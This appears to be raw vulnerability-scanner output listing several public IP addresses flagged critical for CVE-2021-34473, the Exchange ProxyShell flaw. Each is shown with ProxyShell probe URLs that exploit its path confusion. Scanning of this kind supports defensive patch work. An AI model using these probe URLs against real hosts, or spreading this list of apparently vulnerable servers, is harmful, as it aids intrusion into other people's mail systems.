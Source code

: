 [CVE-2021-34473] [http] [critical] https://217.15.133.196/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 217.151.138.35  
  
---  
[CVE-2021-34473] [http] [critical] https://217.151.138.35/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://217.151.138.35/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 37.46.63.131  
  
---  
[CVE-2021-34473] [http] [critical] https://37.46.63.131/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://37.46.63.131/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 37.9.129.238  
  
---  
[CVE-2021-34473] [http] [critical] https://37.9.129.238/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://37.9.129.238/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 46.48.119.230  
  
---  
[CVE-2021-34473] [http] [critical] https://46.48.119.230/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://46.48.119.230/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 5.140.168.106  
  
---  
[CVE-2021-34473] [http] [critical] https://5.140.168.106/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://5.140.168.106/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 62.112.111.34  
  
---  
[CVE-2021-34473] [http] [critical] https://62.112.111.34/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  